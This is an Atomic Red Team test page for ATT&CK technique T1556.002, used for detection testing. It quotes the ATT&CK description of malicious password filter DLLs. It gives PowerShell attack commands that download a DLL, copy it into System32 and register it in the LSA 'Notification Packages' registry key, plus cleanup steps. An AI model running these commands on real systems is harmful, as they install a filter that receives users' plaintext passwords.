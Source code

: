 ```yaml
---
tags: [T1556_002, atomic_test]
filename: "[[T1556.002|T1556.002 - Modify Authentication Process: Password Filter DLL]]"
---
```


# T1556.002 - Modify Authentication Process: Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/002)
<blockquote>Adversaries may register malicious password filter dynamic link libraries (DLLs) into the authentication process to acquire user credentials as they are validated. 

Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as DLLs containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts. Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation. 

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made.(Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.
The binary in bin is https://www.virustotal.com/gui/file/95140c1ad39fd632d1c1300b246293297aa272ce6035eecc3da56e337200221d/detection
Source is in src folder. 
This does require a reboot to see the filter loaded into lsass.exe. 
It does require Administrative privileges to import the clean registry values back into LSA, it is possible you may have to manually do this after for cleanup.

**Supported Platforms:** Windows


**auto_generated_guid:** a7961770-beb5-4134-9674-83d7e1fa865c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Path to DLL to be installed and registered | path | PathToAtomicsFolder&#92;T1556.002&#92;bin|
| dll_name | Name of the Password Filter | string | AtomicRedTeamPWFilter.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg.exe export HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
$passwordFilterName = (Copy-Item "#{dll_path}\#{dll_name}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
```

#### Cleanup Commands:
```powershell
reg.exe import "PathToAtomicsFolder\T1556.002\lsa_backup.reg"
remove-item C:\Windows\System32\#{dll_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: AtomicRedTeamPWFilter.dll must exist on disk at specified location (#{dll_path}\#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}\#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/redcanaryco/atomicredteam/atomics/T1556.002/bin/AtomicRedTeamPWFilter.dll" -OutFile "#{dll_path}\#{dll_name}"
```




<br/>
